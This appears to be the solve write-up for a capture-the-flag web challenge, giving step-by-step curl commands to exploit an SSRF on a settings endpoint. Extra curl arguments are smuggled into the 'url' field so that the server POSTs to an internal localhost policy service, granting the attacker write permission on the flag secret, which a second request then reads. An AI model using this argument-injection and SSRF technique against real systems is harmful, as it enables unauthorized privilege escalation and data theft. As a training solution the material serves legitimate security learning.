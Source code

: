 # Solve instructions

Create a new user.
Create a new secret.
Go to "View permissions" and inspect the values in the select to get your user's id

Use the SSRF in the settings page. Override the method by duplicating --request to send a post adding your user write permissions to the flag secret

```
curl 'http://<host>:<port>/updateSettings' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=<your-session-token>' \
  --data-raw 'url=--request+POST+http%3A%2F%2Flocalhost%3A8181%2Fv1%2Fdata%2Faccess%2Fwrite+--data-raw+%27%7B%22input%22%3A%7B%22user%22%3A%22<your-id>%22%2C%22secret%22%3A%22afce78a8-23d6-4f07-81f2-47c96ddb10cf%22%7D%7D%27'
```



Now get the value of the secret
```
curl 'http://<host>:<port>/getValue' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=<your-session-token>' \
  --data-raw '{"id":"afce78a8-23d6-4f07-81f2-47c96ddb10cf"}'
```
